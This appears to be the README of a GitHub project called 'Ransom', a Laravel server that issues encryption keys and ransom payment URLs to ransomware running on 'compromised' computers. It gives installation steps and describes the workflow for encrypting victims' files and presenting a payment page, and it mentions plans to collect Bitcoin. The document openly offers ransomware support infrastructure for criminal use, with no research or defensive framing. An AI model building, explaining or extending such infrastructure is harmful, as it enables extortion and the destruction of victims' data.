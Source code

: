<p class="center"><img src="https://i.imgur.com/zShH9AO.png"></p>

# About Ransom

Ransom is a key generator for your ransomware software. We generate RSA keys via your identifier, and then send it back to your program. 


#Installing

To install, open the .env file and edit the following lines:

    DB_CONNECTION=mysql
    DB_HOST=127.0.0.1
    DB_PORT=3306
    DB_DATABASE=ransom
    DB_USERNAME=root
    DB_PASSWORD=

Those values must corespond with your database information. Now run the following command:

    php artisan migrate
    
That command will create all of the tables for you.


#Generating keys

When we generate keys, we get the identifier you send the system and AES encrypt it, and send back the encryption key, and the payment url, for example: Visit http://mysite.com/rsa/(identifier) replace the `(identifier)` with the id you generated for the compromised computer, and you will get the following json response back:

    {"rsa":"eyJpdiI6IjBXXC9ocXc4YUhrb3ArWGpadzR1b3NBPT0iLCJ2YWx1ZSI6IjhUaEl1NmM1aUFUSVoxdk13cGpWcWc9PSIsIm1hYyI6IjhmNTY3NTQ4ZjcyZGQ5MmU1NDI1ZTQ0ZDYyNTA3OGY4ZWYxODkwZjhkNzE5ODEwZWIzYTE2MDBmMjg0M2I1NmEifQ==","url":"http:\/\/mysite.com\/payment\/pay\/34543"}
    
    
You can then encrypt their files with the rsa key, and display the payment URL to them. 


#Updates

At the moment, we do not accept payments, it's been a while since using Bitcoin, and all API's require verification, I may use an RPC client, but that will require a VPS to run the bitcoin daemon on. 
